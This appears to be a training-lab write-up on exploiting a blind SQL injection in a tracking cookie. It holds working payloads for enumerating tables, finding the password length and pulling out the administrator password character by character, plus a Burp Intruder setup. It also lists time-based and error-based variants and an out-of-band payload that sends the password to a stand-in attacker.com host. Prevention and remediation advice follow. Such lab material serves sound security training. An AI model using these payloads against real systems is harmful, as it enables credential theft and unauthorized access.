





# Blind SQL Injection with Conditional Responses

## Lab Overview

**Level:** PRACTITIONER  
**Status:** ✅ Solved  
**Objective:** Perform a blind SQL injection attack using conditional responses to extract the administrator password and authenticate as the administrator user.

## Vulnerability Details

The application contains a **blind SQL injection vulnerability** in the tracking cookie used for analytics. The application performs a SQL query containing the value of the submitted cookie, but the results are not directly returned to the user. Instead, the application displays a "Welcome back" message only if the query returns any rows.

**Target:** Tracking cookie (`TrackingId`)  
**Injection Point:** Cookie parameter  
**Detection Method:** Conditional responses (presence/absence of "Welcome back" message)  
**Goal:** Extract administrator password and authenticate

## Solution Steps

### Step 1: Verify Blind SQL Injection Vulnerability

Testing the basic blind SQL injection vulnerability using boolean conditions.

**Initial Cookie Value:**
```
TrackingId=fTQ0mZhvU861D4EK
```

**True Condition Payload:**
```sql
TrackingId=fTQ0mZhvU861D4EK' AND '1'='1
```

**Result:** ✅ "Welcome back" message appears (condition is true)



**False Condition Payload:**
```sql
TrackingId=fTQ0mZhvU861D4EK' AND '1'='2
```

**Result:** ❌ "Welcome back" message does not appear (condition is false)



This confirms the blind SQL injection vulnerability - we can infer query results from the presence/absence of the welcome message.

### Step 2: Confirm Database Structure

Verifying the existence of the `users` table and `administrator` user.

**Table Existence Test:**
```sql
TrackingId=fTQ0mZhvU861D4EK' AND (SELECT 'a' FROM users LIMIT 1)='a
```

**Result:** ✅ "Welcome back" message appears (users table exists)

**Administrator User Test:**
```sql
TrackingId=fTQ0mZhvU861D4EK' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

**Result:** ✅ "Welcome back" message appears (administrator user exists)

### Step 3: Determine Password Length

Using the `LENGTH()` function to determine the password length through binary search.

**Testing Length > 1:**
```sql
TrackingId=fTQ0mZhvU861D4EK' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

**Result:** ✅ True (password > 1 character)

**Testing Length > 2:**
```sql
TrackingId=fTQ0mZhvU861D4EK' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
```

**Result:** ✅ True (password > 2 characters)

**Continuing the process...**

**Testing Length > 19:**
```sql
TrackingId=fTQ0mZhvU861D4EK' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>19)='a
```

**Result:** ✅ True (password > 19 characters)

**Testing Length > 20:**
```sql
TrackingId=fTQ0mZhvU861D4EK' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a
```

**Result:** ❌ False (password is NOT > 20 characters)

**Final Result:** Password length is **20 characters**

### Step 4: Extract Password Characters

Using Burp Intruder to systematically extract each character of the password.

**Burp Intruder Setup:**
- **Cookie Payload:**
```sql
TrackingId=fTQ0mZhvU861D4EK' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

- **Payload Position:** Around the final `'a` character
- **Payload Type:** Simple list (a-z, 0-9)
- **Grep Match:** "Welcome back"

**Intruder Configuration:**
```
Cookie: TrackingId=fTQ0mZhvU861D4EK' AND (SELECT SUBSTRING(password,$1$,1) FROM users WHERE username='administrator')='$a$'--;
```



**Attack Process:**
1. Position 1: Test all characters (a-z, 0-9)
2. Find character that returns "Welcome back" message
3. Repeat for positions 2-20



**Extracted Password:** owdsaqjaqo3emwv90o6u

### Step 5: Authenticate as Administrator

Using the extracted password to log in as the administrator user.

**Login Credentials:**
- Username: administrator
- Password: owdsaqjaqo3emwv90o6u

**Result:** ✅ Successfully authenticated as administrator



## Lab Completion

✅ **Lab Status: SOLVED**

The lab is completed when:
- Successfully identify the blind SQL injection vulnerability
- Confirm the existence of users table and administrator user
- Determine password length (20 characters)
- Extract all 20 characters of the administrator password
- Authenticate as the administrator user
- Gain unauthorized access to the application

## Key Concepts Learned

### 1. **Blind SQL Injection**
Types of blind SQL injection:
- **Boolean-based:** Uses true/false conditions (this lab)
- **Time-based:** Uses time delays to infer results
- **Error-based:** Uses database error messages

### 2. **Conditional Response Exploitation**
- No direct data leakage
- Infer results from application behavior
- "Welcome back" message = query returned rows
- No message = query returned no rows

### 3. **Systematic Data Extraction**
**Length Determination:**
- Binary search approach
- Test increasing lengths until condition becomes false

**Character Extraction:**
- SUBSTRING() function for character-by-character extraction
- Burp Intruder for automation
- Payload sets: a-z, 0-9 (common password characters)

### 4. **Burp Intruder Configuration**
- Payload positions for dynamic testing
- Grep matching for result identification
- Simple list payloads for character testing

### 5. **Database Functions Used**
- `SUBSTRING(string, start, length)` - Extract substring
- `LENGTH(string)` - Get string length
- `LIMIT n` - Limit result rows

## Attack Payloads Summary

| Step | Payload Type | Example Payload | Purpose |
|------|-------------|----------------|---------|
| 1 | Boolean Test | `' AND '1'='1` | Verify vulnerability |
| 2 | Table Check | `' AND (SELECT 'a' FROM users LIMIT 1)='a` | Confirm users table exists |
| 3 | User Check | `' AND (SELECT 'a' FROM users WHERE username='administrator')='a` | Confirm admin user exists |
| 4 | Length Test | `' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>19)='a` | Determine password length |
| 5 | Character Extraction | `' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a` | Extract individual characters |

## Burp Intruder Setup

### Configuration Details:
- **Target:** Application URL
- **Method:** GET/POST (depending on request)
- **Cookie:** TrackingId parameter

### Payload Configuration:
- **Attack Type:** Sniper (single payload position)
- **Payload Set:** Simple list
- **Characters:** a-z, 0-9
- **Grep Match:** Welcome back

### Attack Execution:
1. Send request to Intruder
2. Set payload position around test character
3. Configure payload options
4. Add grep match for "Welcome back"
5. Launch attack
6. Identify successful payloads (those with "Welcome back")

## Security Implications

1. **No Direct Data Leakage** - Results not visible to attacker
2. **Inference-Based Attacks** - Slower but still effective
3. **Complete Data Extraction** - All sensitive data accessible
4. **Authentication Bypass** - Administrator account compromise
5. **System Compromise** - Full application takeover possible

## Detection and Prevention

### Detection:
- Monitor for unusual cookie patterns
- Log and analyze conditional responses
- Watch for timing anomalies
- Implement behavioral analysis

### Prevention:
1. **Parameterized Queries**
   - Use prepared statements
   - Bind variables properly
   - Avoid dynamic SQL construction

2. **Input Validation**
   - Whitelist allowed characters
   - Reject SQL metacharacters
   - Validate data types

3. **Cookie Security**
   - Encrypt sensitive cookie data
   - Use secure, httpOnly flags
   - Implement proper session management

4. **Web Application Firewall (WAF)**
   - Detect SQL injection patterns
   - Block suspicious cookie values
   - Monitor for boolean-based attacks

5. **Database Security**
   - Least privilege principle
   - Monitor database queries
   - Implement query logging

## Impact Rating

**Severity: HIGH** 🟡

- **Confidentiality:** HIGH (password extraction possible)
- **Integrity:** MEDIUM (potential data modification)
- **Availability:** LOW (no direct impact)
- **CVSS Score:** 7.5 (High)
- **Attack Complexity:** MEDIUM (requires automation tools)
- **Privileges Required:** NONE (unauthenticated)
- **User Interaction:** NONE

## Lessons Learned

1. **Blind SQL injection is stealthy** - No visible errors or data leakage
2. **Conditional responses provide attack surface** - Application behavior reveals information
3. **Automation is essential** - Manual testing impractical for character extraction
4. **Burp Intruder is powerful** - Systematic payload testing capabilities
5. **Length determination first** - Critical for efficient character extraction
6. **Character sets matter** - Limiting to alphanumeric reduces attack time
7. **Cookie injection common** - Often overlooked in security testing

## Remediation Checklist

- [ ] Implement parameterized queries for all database operations
- [ ] Add comprehensive input validation and sanitization
- [ ] Encrypt sensitive cookie data
- [ ] Set secure and httpOnly flags on cookies
- [ ] Deploy WAF with SQL injection detection
- [ ] Implement proper session management
- [ ] Add database query logging and monitoring
- [ ] Conduct regular security testing including blind SQL injection
- [ ] Train developers on secure coding practices
- [ ] Implement application-level intrusion detection
- [ ] Use prepared statements consistently across the application
- [ ] Validate all user inputs at multiple layers
- [ ] Implement rate limiting for suspicious requests
- [ ] Add behavioral analysis for anomalous cookie usage

## Tools Used

- **Burp Suite Community Edition**
  - Proxy for request interception
  - Intruder for automated payload testing
  - Repeater for manual testing

- **Browser Developer Tools**
  - Cookie inspection
  - Response analysis

## Attack Timeline

1. **Discovery (5 min):** Identify tracking cookie and test basic injection
2. **Verification (10 min):** Confirm blind SQL injection with boolean tests
3. **Enumeration (15 min):** Verify table and user existence
4. **Length Determination (10 min):** Binary search for password length
5. **Character Extraction (30-60 min):** Burp Intruder attack for each position
6. **Authentication (2 min):** Login with extracted credentials

**Total Time:** ~1-2 hours (depending on automation efficiency)

## Alternative Approaches

### Time-Based Blind SQL Injection
If conditional responses weren't available:
```sql
' AND (SELECT CASE WHEN (username='administrator') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users)--
```

### Error-Based Blind SQL Injection
If database errors were shown:
```sql
' AND (SELECT CASE WHEN (username='administrator') THEN 1/0 ELSE 1 END FROM users)--
```

### Out-of-Band Techniques
Using DNS or HTTP requests to exfiltrate data:
```sql
' AND (SELECT LOAD_FILE(CONCAT('\\\\', (SELECT password FROM users WHERE username='administrator'), '.attacker.com\\')))--
```

This blind SQL injection lab demonstrates how even "invisible" vulnerabilities can lead to complete system compromise through systematic data extraction techniques.
